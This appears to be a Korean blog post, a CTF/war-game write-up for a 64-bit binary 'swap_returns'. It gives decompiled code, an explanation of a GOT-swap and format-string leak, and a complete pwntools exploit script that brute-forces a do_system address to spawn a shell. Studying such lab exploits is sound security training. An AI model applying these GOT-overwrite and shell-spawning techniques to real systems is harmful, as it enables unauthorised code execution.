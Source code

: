 ```yaml
---
layout: post
title: "swap"
comments : true
category : War Game
---
```


# 문제
***

swap_returns 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
swap_returns: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=777bd9bf561cb7af8c22b442f1c146e85f7395c4, not stripped
```

바이너리 코드

__main()__ 
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  ...
  
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(*(_QWORD *)&argc, argv);
      v3 = read_int();
      if ( v3 != 2 )
        break;
      v6 = *v4;
      *v4 = *v5;
      *v5 = v6;
      v6 = 0LL;
    }
    if ( v3 == 3 )
    {
      printf("Bye. ");
      _exit(0);
    }
    if ( v3 == 1 )
    {
      puts("1st address: ");
      __isoc99_fscanf(stdin, "%lu", &v4);
      puts("2nd address: ");
      argv = (const char **)"%lu";
      *(_QWORD *)&argc = stdin;
      __isoc99_fscanf(stdin, "%lu", &v5);
    }
    else
    {
      printf("Invalid choice. ");
    }
  }
}
```

__read_int()__
```
__int64 read_int()
{
  __int16 buf; // [rsp+6h] [rbp-Ah]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  read(0, &buf, 2uLL);
  return (unsigned int)atoi((const char *)&buf);
}
```

기능은 매우 간단하다. scanf를 통해서 입력한 두 개의 주소에 들어 있는 값을 서로 xchg 해준다. <br/><br/>
이를 통해서 got overwrite를 할 수 있다. 하지만 got를 내가 넣어준 입력값으로 변경할 수는 없다. (user input으로 overwrite가 불가능하다.) <br/>

여기서 우리가 입력으로 넣으줄 수 있는 곳은 (우리가 유일하게 control 할 수 있는 부분) __read_int()__ 함수의 2바이트를 read하는 부분밖에 없다.  
## exploit 과정
1. atoi_got와 printf_got 값을 서로 바꾸면 buf에 %p를 통해서 rsi에 들어 있는 buf의 주소를 leak할 수 있다.  
2. 다음 __read_int()__ 함수 호출 때 buf에 2바이트 값을 넣어주면 다시 atoi_got와 printf_got 값을 서로 바꿀 수 있다. (printf의 ret값은 출력한 문자열 개수)
3. 스택에 있는 값들을 잘 조합해서 메모리의 특정 영역에 system 함수의 주소를 만든다. 
    - 앞에서 호출된 printf가 내부적으로 vfprintf를 호출하기 때문에 stack에 vfprintf 함수 관련 주소가 존재한다. 주어진 libc.so.6에서 vfprintf와 system 함수의 offset 차이는 0x81f0이다. 
    -  system 함수의 하위 12bit는 특정 값으로 고정되어 있다. 
    -  system 함수의 13 - 16 bit 값이 8을 넘으면 vfprintf 함수와 system 함수의 17 - 20bit 값이 다르다. (1차이 발생)
    - 따라서 system 함수의 주소를 맞출 확률은 (13 - 16비트 값이 8보다 작을 확률) X (0 -7 사이의 숫자 중 정답을 맞출 확률)이 된다. 즉 1/16이다. 
4. 스택에 있는 값을 조합해서 만든 system 함수의 주소를 atoi의 got 값과 바꾼 후 read 함수에 "sh"를 인자로 준다. system 함수의 주소를 맞추면 쉘을 딸 수 있다.

=> 여기에서는 system 함수 내부에서 호출하는 do_system 함수의 주소가 더 만들기 쉬워서 do_system 함수를 이용했다.(do_system과 system 함수의 offset 차이는 0x580이다.)<br/>

c.f) 만약 printf가 한 번도 호출되지 않았을 때 1번을 수행하고 atoi를 호출하면 printf 호출 과정에 의해서 printf_got에 저장되어 있는 atoi_got 값을 printf의 주소값으로 덮어쓰게 된다. 따라서 다시 swap하고 atoi를 호출해도 printf가 호출된다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def sel_num(num):
	p.recvuntil(": \n")
	p.send(num)

file_path="/home/sungyun/round3/swap/swap_returns"


while(1):
	p=process(file_path, env={"LD_PRELOAD" : "/home/sungyun/round3/swap/libc.so.6"})

	printf_got=0x601038
	atoi_got=0x601050
	setvbuf_got=0x601048
	bss_sec=0x6014c0

	sel_num("go")

	sel_num("1")

	p.recvuntil(": \n")
	p.sendline(str(printf_got))
	p.recvuntil(": \n")
	p.sendline(str(atoi_got))

	sel_num("2")
	sel_num("%p")
	stack=int(p.recv(14),16)
	
	sel_num("%s")
	print hex(stack)
	
	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(stack-0x630))
	p.recvuntil(": \n")
	p.sendline(str(bss_sec))

	sel_num("77")

	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec-4))
	p.recvuntil(": \n")
	p.sendline(str(stack-0x508-5)) 
	
	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec-5))
	p.recvuntil(": \n")
	#p.sendline(str(stack-0x681)) #0x30
	p.sendline(str(stack-0x95))   #0x32
	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec+2))
	p.recvuntil(": \n")
	p.sendline(str(atoi_got))

	sel_num("2")

	sel_num("sh")
	p.sendline("pwd")

	try:
		msg=p.recv()
		if "2. Swap" in msg:
			continue
		break
	except:
		p.close()

p.interactive()
```

